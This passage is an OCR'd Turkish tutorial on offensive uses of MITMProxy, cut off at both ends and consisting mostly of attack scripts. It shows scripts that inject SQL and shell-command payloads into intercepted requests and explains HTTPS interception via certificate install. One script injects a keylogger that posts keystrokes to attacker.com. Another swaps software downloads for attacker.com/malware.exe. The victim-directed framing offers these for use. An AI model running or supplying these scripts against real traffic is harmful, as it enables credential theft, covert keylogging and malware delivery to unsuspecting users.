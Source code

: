 **📌 Bu betik, JWT veya OAuth token'larını çalar.**

3. Trafik Manipülasyonu ile Enjeksiyon
MITMProxy, HTTP isteği ve yanıtlarını değiştirerek bir saldırı yüzeyi oluşturabilir.
**🔹 Örnek 5: SQL Injection Payload Enjeksiyonu**
Bir giriş formuna otomatik olarak SQL Injection kodu enjekte etmek:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if flow.request.method == "POST" and "login" in flow.request.pretty\_url:
 flow.request.text = flow.request.text.replace("username=", "username=' OR '1'='1' -- ")

**📌 Bu betik, kullanıcı giriş isteklerine otomatik SQL Injection payload'ı ekler.**

**🔹 Örnek 6: Komut Enjeksiyonu**
Eğer sistemde bir komut enjeksiyonu açığı varsa, aşağıdaki betik çalıştırılabilir:
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if flow.request.method == "POST" and "execute" in flow.request.pretty\_url:
 flow.request.text = flow.request.text.replace("cmd=", "cmd=whoami; id; uname -a")

**📌 Bu betik, hedef sisteme komut çalıştırma saldırısı yapar.**

4. HTTPS Trafiğini Manipüle Etme
MITMProxy ile HTTPS trafiğini analiz edip saldırılar düzenlemek için sertifika yüklemek gerekir.
MITMProxy sertifikasını yükleyin:
```bash
mitmproxy --set block\_global=false
```
Tarayıcıya veya cihaza sertifikayı yükleyin (http://mitm.it adresinden).
Yukarıdaki saldırı betiklerini HTTPS sitelerine uygulayın.

5. MITMProxy ile Keylogger Enjeksiyonu
MITMProxy kullanarak kurbanın girdiği her şeyi kaydetmek için bir keylogger ekleyebilirsiniz.
**🔹 Örnek 7: Web Sayfasına Keylogger Enjekte Etme**
```python
from mitmproxy import http
```
def response(flow: http.HTTPFlow):
 if "target.com" in flow.request.pretty\_url:
 flow.response.text = flow.response.text.replace("", """
 
 document.addEventListener('keypress', function(event) {
 fetch('http://attacker.com/log', { method: 'POST', body: event.key });
 });
 
 """)

**📌 Bu betik, hedef web sitesine keylogger enjekte eder ve saldırganın sunucusuna gönderir.**

6. Hedef Trafiğini Manipüle Etme (Exploit Sunma)
MITMProxy ile bir kullanıcının belirli bir siteyi ziyaret ettiğinde ona zararlı bir dosya sunabilirsiniz.
**🔹 Örnek 8: Kullanıcıya Zararlı EXE Dosyası Sunma**
```python
from mitmproxy import http
```
def request(flow: http.HTTPFlow):
 if "example.com/software.exe" in flow.request.pretty\_url:
 flow.request.url = "http://attacker.com/malware.exe"
